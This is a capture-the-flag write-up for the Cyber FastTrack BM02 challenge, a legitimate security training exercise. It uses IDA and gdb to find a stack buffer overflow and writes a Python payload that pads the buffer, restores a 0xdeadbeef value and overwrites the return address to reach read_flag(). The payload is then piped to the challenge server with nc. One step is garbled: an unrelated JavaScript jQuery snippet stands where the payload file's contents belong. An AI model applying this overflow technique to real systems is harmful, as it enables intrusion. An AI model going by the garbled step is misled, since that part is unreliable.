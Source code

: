 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, in order to enter the exploitable() function, we first need to enter `add_candidate` to add employee and then enter the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.PNG\
![image info](BM02_8.PNG)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter
```javascript
function fancyAlert(arg) {
  if(arg) {
    $.facebox({div:'#foo'})
  }
}
```
* print("add_candidate")
* print('A'*20)
* and save it as a python file.
BM02_9.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are 25 0x00000000 remaining for us to fill out and then we have to overwrite the 0xdeadbeef.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are 3 adresses remaining to changes. Then, we changes the return address to 0x5655615d. Remember, we have to write the address in reverse byte order.
	We changes the contents of the python file to:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
BM02_10.PNG
	Hit Ctrl + c to exit the current program
	Run the program as:
	Type run < <(python bm02.py)
	Type y to start from the beginning
	Enter info frame to see if the return address changed to 0x5655615d.
BM02_11.PNG
	Use si to execute one instruction at a time to see if the program enters the read_flag(void) function.
	We see that the program enters the read_flag(void) function.
BM02_12.PNG
	Use si to execute one instruction at a time and we will see the flag eventually.
BM02_13.PNG
	In order to get the server to response to our request, we also need to print out the last name and the job title, so we edit the python file as below:
	print("add_candidate")
	print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
	print("last name")
	print("job title")
	Send the bm02.py to the server and it would prints out the flag.
	python bm02.py | nc bm02.allyourbases.co 9003





	
